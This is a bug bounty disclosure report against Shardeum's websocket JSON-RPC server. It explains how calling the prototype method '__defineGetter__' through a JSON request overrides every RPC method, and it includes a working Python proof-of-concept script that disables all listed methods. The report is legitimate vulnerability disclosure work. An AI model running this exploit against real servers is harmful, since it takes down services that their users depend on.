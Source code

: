 
# Taking down the websocket server via malicious "methods" object override

Submitted on Tue Jul 23 2024 16:25:12 GMT-0400 (Atlantic Standard Time) by @anton_quantish for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33571

Report type: Websites and Applications

Report severity: Medium

Target: https://github.com/shardeum/json-rpc-server/tree/dev

Impacts:
- Taking down the application/website

## Description
Hey team,

## Brief/Intro
It's possible to completely take down the websocket JSON-RPC server by a few specifically crafted requests. It will then be able to still accept new connections but won't answer to any request at all.

## Vulnerability Details
When the request is received by the Websocket JSON-RPC server, first its `method` field checked to be present in the `methods` object which contains the mapping from the method names to their functions to be called:

https://github.com/shardeum/json-rpc-server/blob/5dc56e5f4312529d4262cab618ec618d288de5dd/src/websocket/index.ts#L77-L90
```js
    const method_name = request.method as string
    if (!methods[method_name as keyof typeof methods]) {
      socket.send(
        JSON.stringify({
          id: request.id,
          jsonrpc: '2.0',
          error: {
            message: 'Method does not exist',
            code: -1,
          },
        })
      )
      return
    }
```
Then, after some extra checks, the function from the `methods` mapping is called actually with the `request.params` and some `callback` passed into :

https://github.com/shardeum/json-rpc-server/blob/5dc56e5f4312529d4262cab618ec618d288de5dd/src/websocket/index.ts#L162
```
methods[method_name as keyof typeof methods](request.params, callback)
```

The vulnerability is that such a code allows to call not only the `methods` own functions, but the ones from its prototype also.

I didn't manage to achieve something like RCE this way but I was able to override all the functions in this `methods` mapping to become uncallable using the `__defineGetter__` prototype function.

I can send the following JSON request to the JSON-RPC server:
```
{"jsonrpc":"2.0","method":"__defineGetter__","params":["eth_blockNumber"],"id":1}
```
In this case, the `__defineGetter__` method will be first checked to be present in the `methods` mapping, and the check will pass successfully. Then, this method will be called the following way:
```
methods["__defineGetter__"]("eth_blockNumber", callback)
```
This call defines a getter function (the callback) which will be called for every further accessing the `eth_blockNumber` field of `methods` mapping.

Thus, when someone then tries to call the `eth_blockNumber` method, the callback function will be called as the getter function, it will return null and the method will not do anything (will fail with `null` is not a function exception actually).

The same could be done for all the methods available and all of them will not be callable for anyone anymore.

## Impact Details
Complete take down of the websocket JSON-RPC server.
        
## Proof of concept
## Proof of Concept
1. Install the python dependencies with `pip3 install websockets`
2. Run the following exploit with `python3 takedown_ws.py` (replace the endpoint with your own one):
```
import json
import asyncio
import websockets


ENDPOINT = 'ws://172.16.205.128:8080'


methods = ['web3_clientVersion', 'web3_sha3', 'net_version', 'net_listening', 'net_peerCount', 'eth_protocolVersion', 'eth_syncing', 'eth_coinbase', 'eth_mining', 'eth_hashrate', 'eth_gasPrice', 'eth_accounts', 'eth_blockNumber', 'eth_getBalance', 'eth_getStorageAt', 'eth_getTransactionCount', 'eth_getBlockTransactionCountByHash', 'eth_getBlockTransactionCountByNumber', 'eth_getUncleCountByBlockHash', 'eth_getUncleCountByBlockNumber', 'eth_getCode', 'eth_signTransaction', 'eth_sendTransaction', 'eth_sendRawTransaction', 'eth_sendInternalTransaction', 'eth_call', 'eth_estimateGas', 'eth_getBlockByHash', 'eth_getBlockByNumber', 'eth_getBlockReceipts', 'eth_feeHistory', 'eth_getTransactionByHash', 'eth_getTransactionByBlockHashAndIndex', 'eth_getTransactionByBlockNumberAndIndex', 'eth_getTransactionReceipt', 'eth_getUncleByBlockHashAndIndex', 'eth_getUncleByBlockNumberAndIndex', 'eth_getCompilers', 'eth_compileSolidity', 'eth_compileLLL', 'eth_compileSerpent', 'eth_newBlockFilter', 'eth_newPendingTransactionFilter', 'eth_uninstallFilter', 'eth_newFilter', 'eth_getFilterChanges', 'eth_getFilterLogs', 'eth_getLogs', 'eth_getWork', 'eth_submitWork', 'eth_submitHashrate', 'eth_chainId', 'eth_getAccessList', 'eth_subscribe', 'eth_unsubscribe']


async def main():
	async with websockets.connect(ENDPOINT) as ws:
		for method in methods:
			await ws.send(json.dumps({
				"jsonrpc": "2.0",
				"method": "__defineGetter__",
				"params": [method],
				"id": 1
			}))


if __name__ == '__main__':
	asyncio.run(main())
```
3. Connect to websocket server with `wscat -c ws://172.16.205.128:8080` for instance and try to execute any method. Make sure there's no response and there is an error in server log:
```
uncaughtException:TypeError: api_1.methods[method_name] is not a function
```
